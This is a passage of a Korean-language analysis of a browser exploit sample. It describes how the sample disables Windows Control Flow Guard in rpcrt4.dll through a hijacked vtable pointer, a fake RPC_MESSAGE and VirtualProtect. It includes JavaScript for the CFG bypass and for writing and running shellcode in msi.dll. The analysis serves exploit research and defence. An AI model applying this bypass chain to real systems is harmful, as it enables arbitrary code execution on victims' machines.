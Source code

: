 

위 사진을 통해 서버 루틴 함수 호출은 indirect function call이고, CFG 검사가 있다는 것을 알 수 있습니다.



먼저 첫 번째 문제(어떻게 하면 javascript를 통해 rpcrt4!NdrServerCall2를 호출할 수 있는가?)를 해결하겠습니다. DOM 객체 vtable의 함수 포인터를 rpcrt4!NdrServerCall2로 바꿀 수 있습니다. 왜냐하면 rpcrt4!NdrServerCall2는 CFGBitmap에 기록된(화이트리스팅된) 함수이며 CFG 검사가 비정상 동작으로 판단하지 않기 때문입니다. 실제 공격에 사용된 샘플은 MSHTML!CAttribut::normalize를 rpcrt4!NdrServerCall2로 바꿔 칩니다. 그다음 javascript에서 "xyz.normalize()"를 호출해 결과적으론 rpcrt4!NdrServerCall2를 호출합니다.



두 번째 문제(rpc4!Invoke에서 서버 루틴 함수를 호출할 때 체크하는 CFG는 어떻게 해결할 것인가?)는 다음과 같은 방법으로 해결합니다.

1. 가짜 RPC_MESSAGE와 rpcrt4!NdrServerCall2를 사용해 VirtualProtect를 호출, RPCRT4!__guard_check_ical_fptr의 메모리 권한을 PAGE_EXECUTE_READWITE로 수정
2. rpcrt4!__guard_check_icall_fptr에 저장된 포인터 ntdll!LdrpValidateUserCallTarget를 ntdll!KiFastSystemCallRet으로 수정해 rpcrt4.dll에 대한 CFG 검사를 비활성화
3. RPC4!__guard_check_icall_fptr의 메모리를 복구

```c
function killCfg(addr) {
  var cfgobj = new CFGObject(addr)
  if (!cfgobj.getCFGValue()) 
    return
  var guard_check_icall_fptr_address = cfgobj.getCFGAddress()
  var KiFastSystemCallRet = getProcAddr(ntdll, 'KiFastSystemCallRet')
  var tmpBuffer = createArrayBuffer(4)
  call2(VirtualProtect, [guard_check_icall_fptr_address, 0x1000, 0x40, tmpBuffer])
  write(guard_check_icall_fptr_address, KiFastSystemCallRet, 32)
  call2(VirtualProtect, [guard_check_icall_fptr_address, 0x1000, read(tmpBuffer, 32), tmpBuffer])
  map.delete(tmpBuffer)
}
```



두 가지 문제를 해결한 후, rpcrt4.dll에 대한 CFG가 꺼져있으므로 가짜 RPC_MESSAGE를 사용해 원하는 함수(버퍼에 쉘 코드를 담고 있는 함수) 포인터를 호출할 수 있습니다. 샘플은 mis.dll+0x5000에 쉘 코드를 덮어쓰고 rpcrt4!NdrServerCall2를 통해 쉘 코드를 실행합니다.

```c
var shellcode = new Uint8Array([0xcc])
var msi = call2(LoadLibraryExA, [newStr('msi.dll'), 0, 1]) + 0x5000
var tmpBuffer = createArrayBuffer(4)
call2(VirtualProtect, [msi, shellcode.length, 0x4, tmpBuffer])
writeData(msi, shellcode)
call2(VirtualProtect, [msi, shellcode.length, read(tmpBuffer, 32), tmpBuffer])
call2(msi, [])
```



다음은 익스플로잇에 성공한 스크린샷입니다.
